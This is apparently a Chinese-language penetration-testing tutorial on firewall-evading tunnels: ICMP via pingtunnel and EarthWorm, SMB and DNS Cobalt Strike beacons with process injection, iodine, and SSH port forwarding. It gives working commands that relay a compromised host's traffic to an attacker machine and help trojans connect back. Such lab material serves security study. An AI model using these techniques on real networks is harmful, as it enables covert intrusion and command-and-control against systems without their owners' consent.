# 1. 隧道技术介绍

在进行渗透测试以及攻防演练的时候，通常会存在各种边界设备、软硬件防火墙、IPS等设备来检测外部连接情况，这些设备如果发现异常，就会对通信进行阻断。

那么隧道技术就是一种绕过端口屏蔽的通信方式，在实际情况中防火墙上会设定各种安全策略，比如允许某种类型的端口通过，阻断某种端口通过等情况。那么隧道技术就是将数据包封装成功防火墙允许通过的数据包类型及端口，然后穿越防火墙，与对方进行通信，当被封装的数据包到达后，再将数据包还原。

例如，防火墙拦截了TCP通信，那么HTTP、HTTPS等协议都将无效，那么就可以使用SMB协议，DNS协议、ICMP协议进行建立隧道进行通信。

## 1.1. 内网—隧道技术

那么为什么再内网中使用到隧道技术，这是由于在内网中通常上传的木马通信会被软硬件防火墙的策略拦截，那么就可以利用隧道进行对木马通信也就是数据通信进行封装，从而改变通信协议绕过拦截，解决CS、MSF无法上线或数据传输不稳定无回显等情况。

## 1.2. 常见的隧道协议

注意协议是向下兼容，比如TCP协议被禁用了，那么像基于TCP协议的HTTP/S协议也将不能用。


```
应用层：SSH隧道、HTTP/S隧道、DNS隧道
传输层：TCP隧道、UDP隧道
网络层：IPv6隧道、ICMP隧道
```

## 1.3. 前置条件

**入站限制，出站无限制：**

如果入站被限制只能访问80端口或者一些其它端口，可能在基础的前期的渗透过程中需要通过文件上传等方式获取到基础的权限，然后再进行后续的渗透，出站是全通的从本质来说就无需进行隧道技术了，直接正常上传木马进行反弹即可，最典型的就是反向shell。

**入站无限制，出站限制：**

如果入站无限制，那么就可以通过各种手段上传木马或后门，最典型的就是正向shell

**出入站均限制：**

如果出入站均存在限制，那么就要考虑它限制的内容的，如果只是简单的限制还好，如果限制做的比较严谨，那么就可能存在无法解决的办法。

## 1.4. 判断内网的连通性

通过判断内网的连通性可以判断目标主机是否能够上外网，简单来说就是判断出站是否做了限制，而入站如果设置限制的话，在前期的渗透过程中基本上就能够判定。

**ICMP协议：**

```
ping www.baidu.com
```



**TCP协议：**

可以使用telnet协议，如果出现黑框就对了，证明TCP协议是通信的，其实还有一个最简单的办法，直接按照常规思路上传木马，如果无法连接就证明TCP协议被拦截了，CS木马都显示HTTP，在前面我就提到了，协议向下兼容的，TCP都封了，HTTP/S肯定是无法通信的，但是也有可能存在单独放开的可能。

```
telnet www.baidu.com 80
```


**DNS协议：**

```
nslookup www.baidu.com
```


**HTTP协议：**

```
curl http://www.baidu.com
```



# 2. 网络层隧道技术

这里演示的都是基于网络层建立的隧道技术。

## 2.1. ICMP隧道技术

通常在通信协议中，如果两台主机需要互相通信，那么就需要提前放开相应的端口用于通信，而且ICMP是不需要这些端口进行通信的，ICMP是依靠Ping命令去和远端主机进行通信的，而且ICMP隧道就是在通信过程中将TCP/UDP的数据封装在ICMP的Ping数据包中，从而穿越防火墙。

### 2.1.1. 常见工具

[spp](https://github.com/esrrhs/spp)、[icmpsh](https://github.com/bdamele/icmpsh)、[pingtunnel](https://github.com/esrrhs/pingtunnel)、[impacket](https://github.com/SecureAuthCorp/impacket)

### 2.1.2. Pingtunnel基础演示

#### 2.1.2.1. 下载服务端

这里我们先现在服务端，然后将服务端上传到kali中，由于我们利用cs来上线等操作都需要使用到kail或者Linux系统，所以这里服务端使用的就是Linux系统。


然后我们测试一下运行情况，像下面的情况就是测试成功了，那么服务端就是运行成功的，命令可以去github上自行看。

```
sudo ./pingtunnel -type server
```



#### 2.1.2.2. 下载客户端

这里由于我操作的虚拟机是Windows，那么我只需要下载Windows的客户端即可，并且将客户端上传到目标主机上，其实这里好像是不分客户端和服务端的，只是使用的命令不同，所实现的功能就不同。



#### 2.1.2.3. 设置CS连接

这里的CS监听器1主要是用于生成木马，我们如果生成的木马回连地址是我们的攻击机的地址，那么在TCP连接被限制的时候会直接运行不了，而且连接会直接被干掉，而我们设置回连地址是目标主机自己，那么这个连接就不会被防火墙限制。



CS监听器2主要是用于来监听信息，监听本地的2222端口。



#### 2.1.2.4. 连接测试

木马生成就不在赘述了，和正常生成木马一样，注意需要使用监听器1来生成木马。

首先开启Pingtunnel的服务端模式，这里我也不再进行演示，然后运行客户端。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```



然后这里就可以运行木马了，运行完就可以去CS上查看是否成功上线。



至于数据转发，如果想查看也可以的，直接在界面中就能查看到。



### 2.1.3. Pingtunnel跨网段演示

这里需要配合ew+pingtunnel组建socks5隧道，老版的pingtunnel好像是可以直接单独使用的，但是再新版的pingtunnel中需要配合ew来操作。

#### 2.1.3.1. EarthWorm

EarthWorm是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。

但是开发人员考虑到该工具影响很坏，已经永久停止更新了。

项目地址：[EarthWorm下载](https://github.com/idlefire/ew)

项目介绍：[earthworm介绍](http://rootkiter.com/EarthWorm/)

#### 2.1.3.2. pingtunnel

这里我们就不演示如何下载客户端和服务端了，直接演示操作。

```
攻击机：192.168.10.20
Windows10：192.168.10.150
					 192.168.20.10
Windows7：192.168.20.20
```

#### 2.1.3.3. 攻击机操作

首先将所有的工具都上传到攻击机中，注意需要给予执行权限，最好执行的时候给予管理员权限运行。

```
./ew_for_linux64 -s rcsocks -l 5555 -e 4444   ##将接收到的4444流量请求转发到5555端口
```


```
./pingtunnel -type server  ##开启服务器模式
```



#### 2.1.3.4. Windows10操作

同样这里需要将所有工具提前上传到服务器上，至于如何上传，可通过前期的一些WEB漏洞、系统漏洞等获取到权限。

```
pingtunnel.exe -type client -l 127.0.0.1:3333 -s 192.168.3.76 -t 192.168.3.76:4444 -sock5 -1 -noprint 1 -nolog 1
```



```
ew.exe -s rssocks -d 127.0.0.1 -e 3333
```



#### 2.1.3.5. 连接测试

到这里我们配置一下proxifier的代理，这个工具已经使用过很多次了，就不细说了，直接上操作。



接着开启远程桌面测试，可以看到成功连接到192.168.20.20的虚拟机。



# 3. 传输层隧道技术

关于传输层隧道技术，其实简单来说就是CS、MSF、NC、Python等反弹shell，就是利用传输层建立的隧道技术，所以，这里就不在演示传输层的隧道技术。

# 4. 会话层隧道技术

这里你可以当我吹的，因为我也不知道SMB协议属于那一层的。

从ISO/OSI网络分层的眼光来看，SMB协议位于会话层（session layer）和表示层（presentation layer）以及小部分应用层（application layer）。

从TCP/IP协议划分的眼光来看，SMB是一个工作在应用层的协议。

## 4.1. SMB隧道技术

Windows 将命名管道通信封装在 SMB 协议中，此流量封装在SMB协议中，所以SMB beacon相对隐蔽。SMB beacon不能直接生成可用载荷, 只能使用 PsExec 或 Stageless Payload 上线。

### 4.1.1. SMB隧道技术基础演示

这里就是简单的利用HTTP获取到的Payload转为SMB进行上线。

#### 4.1.1.1. 常规上线

由于常规上线，是需要目标主机接收445端口连接，同时Beacon只能链接由同一个CS生成的会话，并且在一定情况下还需要拥有管理员权限或管理员凭据。



#### 4.1.1.2. SMB Beacon 监听器

机上线后，创建一个SMB Beacon监听器， pipeame （管道名称）可以自定义修改，或者默认即可。



#### 4.1.1.3. 派生SMB会话

右键点击之前的http会话，输入命令，运行后即可出现一个派生会话。

```
spawn SMB会话监听器名称
```



#### 4.1.1.4. 注入进程会话

其实这里就是将smb注入到进程中，这样在运行的时候相对更隐蔽，同时注入后，自动实现自启动等等....



#### 4.1.1.5. 注入效果

这里我本来想注入phpstudy的，但是好像有点小问题，所以选择了一个其它的进程进行了注入，好像就可以了。



#### 4.1.1.6. 总结

这里其实SMB还可以配合不出网上线，但是演示起来吧，稍许复杂，可以看我之前的文章，有写到过。

# 5. 应用层隧道技术

这里是基于应用层建立的隧道技术。

## 5.1. DNS隧道技术

DNS隧道，是隧道技术中的一种。当我们的HTTP、HTTPS这样的上层协议、正反向端口转发都失败的时候，可以尝试使用DNS隧道。DNS隧道很难防范，因为平时的业务也好，使用也罢，难免会用到DNS协议进行解析，所以防火墙大多对DNS的流量是放行状态。

### 5.1.1. DNS隧道技术上线演示

这里上线，只是让主机上线CS，但是后期的通讯还是会走TCP的流量，所以这里先让其上线，后续再介绍如何通讯。

#### 5.1.1.1. 前期准备

这里我们需要前期购买一个域名、云服务器，放通云服务器TCP与UDP的53端口。

#### 5.1.1.2. 域名修改解析记录

`A记录`->`cs主机名`->`CS服务器IP`

`NS记录`->`ns1主机名`->`A记录地址`

`NS记录`->`ns2主机名`->`A记录地址`


#### 5.1.1.3. 配置DNS监听器

设置监听器，`Payload`选择`Beacon DNS`，`DNS地址`选择刚刚填写的`ns1记录`与`ns2记录`，下面的`DNS地址( Stager)`填写`A记录`，也就是`CS.xxx.fun`。



#### 5.1.1.4. 生成后门

这里选择`Windows可执行程序(stageless)`，然后选择刚刚的监听器即可。



#### 5.1.1.5. 上线主机

这里将后门木马上传到目标机器上，然后使其上线，上线后会发现，出现的是一个小黑框。



#### 5.1.1.6. 执行命令

这里进入交互，输入命令即可使其正常。

```
mode dns-txt
```



### 5.1.2. DNS隧道技术通讯演示

这里就是介绍利用DNS隧道进行通讯，这里可能会存在一点问题，由于需要到目标主机上执行命令，而且好像还是需要管理员权限，所以这里就产生了一个问题，如果能够执行管理员权限，同时能够执行命令，那么我还需要什么DNS隧道技术，我直接使用命令去关防火墙不就OK了么，可能有的人说为了隐密，都上别人主机了，如果真的干了一些事，还能躲掉么？

总体来说有点鸡肋，同时DNS隧道这个技术，你需要购买云服务器，域名，倘若域名与云服务器没做好高匿，一查一个准.....

#### 5.1.2.1. 前期准备

这里首选需要安装`iodine`，`iodine`工作原理是 ，通过`TAP`虚拟网卡，在服务端建立起一个局域网；在客户端，通过`TAP`建立一个虚拟网卡；两者通过`DNS`隧道连接，处于同一个局域网。在客户端和服务端之间建立连接后，客户机上会多出一块名为`dns0`的虚拟网卡。

[iodine](https://code.kryo.se/iodine/)

#### 5.1.2.2. 服务端安装工具

这里的服务端其实也就是再你的攻击机上配置，不过这里需要提前安装，例如我这里，再Linux中可以直接使用命令进行安装，这里我看了一下，如果是去下载官网中的iodine的Linux版是需要编译的，所以这里可以直接通过Linux中下载即可。

```
yum install iodine
```



#### 5.1.2.3. 服务端运行工具

这里我们将工具运行起来，运行起来后，你可以输入命令去查看一下网卡，会发现多出一个网卡，这里的选择的网段，千万不要和现有的网段冲突。

```
iodined -f -c -P 123456 192.168.200.1 ns1.域名.fun -DD
```

```
-f：在前台运行
-c：禁止检查所有传入请求的客户端IP地址。
-P：客户端和服务端之间用于验证身份的密码。
-D：指定调试级别，-DD指第二级。“D”的数量随级别增加。
```



#### 5.1.2.4. 客户端安装工具

客户端的工具其实可以直接去官网中下载已经编译好的，但是有一个问题就是无法直接使用，会出现报错，需要安装一个APT网卡，直接一直下一步，这里我忘记截图了。

[ATP网卡驱动](https://swupdate.openvpn.org/community/releases/tap-windows-9.9.2_3.exe)


至于iodine直接下载编译版的即可，这里需要安装APT网卡驱动基本上就可以不用做操作了，真正操作中，你怎么给它装驱动？？？

#### 5.1.2.5. 客户端运行工具

客户端的工具运行起来还需要管理员操作，都管理员了，我还要你个DNS隧道干嘛.....同样这里，操作完输入命令后，可以看到多出了一个IP地址，刚刚设置的是192.168.200.1网段的IP，那么这里自动就会生成一个192.168.200.2的IP地址。

```
iodine.exe -f -P 123456 ns1.域名.fun
```



#### 5.1.2.6. 测试连通性

这里我们简单ping一下，然后再使用远程桌面来进行测试一下。



可以看到我们这里读取一下网页信息，可以看到隧道建立成功了。


## 5.2. SSH隧道技术

在内网中，几乎所有的Linux/UNIX服务器和网络设备都支持SSH协议。在一般情况下，SSH协议是被允许通过防火墙和边界设备的，所以经常被攻击者利用。同时，SSH协议的传输过程是加密的，所以我们很难区分合法的SSH会话和攻击者利用其他网络建立的隧道。攻击者使用SSH端口隧道突破防火墙的限制后，能够建立一些之前无法建立的TCP连接。

### 5.2.1. 注意事项

使用SSH隧道技术一定是需要使用到Linux系统当作跳板机的，同时需要使用到root权限，所以条件上会有点苛刻，由于Windows上并没有SSH所以无法使用Windows主机作为跳板机来实现建立隧道。

同时最好跳板机上不要有过多的防火墙策略，也就是Linux内置的防火墙策略，如果有，网上有很多能够关策略的办法，但是都需要使用root权限。

### 5.2.2. SSH隧道常用参数说明

-C：压缩传输，提高传输速度

-f：将SSH传输转入后台执行，不占用当前的Shell

-N：建立静默连接(建立了连接，但是看不到具体会话)

-g：允许远程主机连接本地用于转发的端口

-L：本地端口转发

-R：远程端口转发

-D：动态转发(SOCKS代理)

-P：指定SSH端口

### 5.2.3. SSH隧道技术远程转发

这里的远程转发主要是以Linux系统作为跳板，将跳板机上访问的IP地址及端口流量转发至攻击机上的某个端口，从而实现攻击机访问本地的端口能够跳转访问到目标主机端口上的内容。

#### 5.2.3.1. 环境准备

这里也攻击机也可以使用内网的IP，只要能与Linux跳板机通信即可。

```
攻击机:外网IP
Linux跳板机:192.168.10.20 
Windows服务器:192.168.10.150
```

#### 5.2.3.2. Linux跳板机执行命令

这里呢，就是像上面提到的需要使用到root权限，确实就是比较麻烦的了，除非你运气好获取到的root是弱口令，或者一些提权漏洞，不然确实比较难实现ssh隧道建立，至于后面需要输入的密码，就是你攻击机的密码。

```
ssh -CfNg -R 1010:192.168.10.150:80 root@124.71.XX.62

1010 ##是攻击机端口(自定义)
192.168.10.150:80 ##是需要访问的地址
root@124.71.200.62 ##是攻击机地址
```



#### 5.2.3.3. 验证效果

```
curl http:127.0.0.1:1010
```



### 5.2.4. SSH隧道技术本地转发

这里本地转发，其实就是通过主动去连接Linux跳板机，但是这里有个问题就是，如果你的攻击机的外网主机，该如何去连接？通常一个企业内的IP地址只是出口网关，内部都是自定义IP，你该如何去连接，除非有人将SSH端口通过防火墙映射出去，可能你能去连接，否则本地转发，要不你先都去到内部一台主机，拿它当跳板机，然后跳板机再去连接跳板机，不然好像真没办法。

#### 5.2.4.1. 环境准备

这里环境准备，我是使用本地来进行测试，由于像之前提到的，外部主机无法找到内网IP，所以只能使用本地环境演示。

```
攻击机IP:192.168.10.20
Linux跳板机IP:192.168.10.30 192.168.20.20
windows服务器:192.168.20.10
```

#### 5.2.4.2. 攻击机执行命令

这里其实差不多，只是连接的地址不再是攻击机地址而且跳板机的地址，这里是可以的，但是我在测试的时候，输入错了，但是通过转发的效果，其实是能够验证出，转发是正常的。

```
ssh -CfNg -L 3333:192.168.20.10:80 root@192.168.10.30
```



#### 5.2.4.3. 验证效果

这里我们再次验证，成功获取到Windows防火墙上80端口中的信息。

```
curl http:127.0.0.1:3333
```



### 5.2.5. SSH隧道技术动态转发

利用 ssh 隧道的正向 socks 代理把目标的整个内网代出来，任何支持socks 4/5协议的程序都可以使用这个加密通道进行代理访问。

#### 5.2.5.1. 环境准备

这里环境准备，同样使用本地来搭建，这里没出错。

```
攻击机IP:192.168.10.20
Linux跳板机IP:192.168.10.30 192.168.20.20
windows服务器:192.168.20.10
```

#### 5.2.5.2. 攻击机执行命令

```
ssh -D 1212 root@192.168.10.30
```


#### 5.2.5.3. 攻击机设置

这里需要到攻击机的浏览器中进行设置，设置socks代理，这里进入浏览器中找到网络设置，设置socks4/5的代理。



#### 5.2.5.4. 验证效果

可以看到这里，虽然ping不通192.168.20.10，但是能够访问到192.168.20.10的页面。



